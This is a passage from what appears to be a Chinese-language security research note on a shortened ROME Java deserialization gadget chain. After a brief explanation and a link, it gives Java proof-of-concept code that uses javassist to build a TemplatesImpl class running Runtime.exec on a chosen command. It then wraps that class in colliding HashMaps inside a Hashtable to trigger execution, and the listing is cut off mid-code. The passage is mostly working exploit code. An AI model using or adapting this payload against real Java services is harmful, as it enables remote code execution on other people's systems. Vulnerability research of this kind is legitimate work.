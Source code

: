 关于构造`e.key=hash`的方法，CC7中讲过

触发时满足`value=EqualsBean,m.get(key)=TemplateImpl`

直接给payload（分析见链接）

https://y4tacker.github.io/2022/03/07/year/2022/3/ROME%E6%94%B9%E9%80%A0%E8%AE%A1%E5%88%92/#Step1%E2%80%93%E6%94%B9%E9%80%A0%E5%88%A9%E7%94%A8%E9%93%BE

得到最后的长度为`1448`

```java
package org.example.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Rome3 {
    private static byte[] getTemplatesImplEvilCode(String cmd) throws Exception{
        String body="Runtime.getRuntime().exec(\""+cmd+"\");";
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.makeClass("z3eyond");
        CtClass superClass=pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor=ctClass.makeClassInitializer();
        constructor.setBody(body);
        byte[] bytes=ctClass.toBytecode();
        return bytes;
    }
    private static void setFieldValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        String cmd ="calc";
        byte[] code=getTemplatesImplEvilCode(cmd);
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "z");
        setFieldValue(templates, "_tfactory", null);
        EqualsBean bean = new EqualsBean(String.class,"");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",templates);
        map1.put("bB",bean);
        map2.put("aa",bean);
        map2.put("bB",templates);
        //HashMap map = new HashMap();
        Hashtable map=new Hashtable();
        map.put(map1,"");
        map.put(map2,"");
```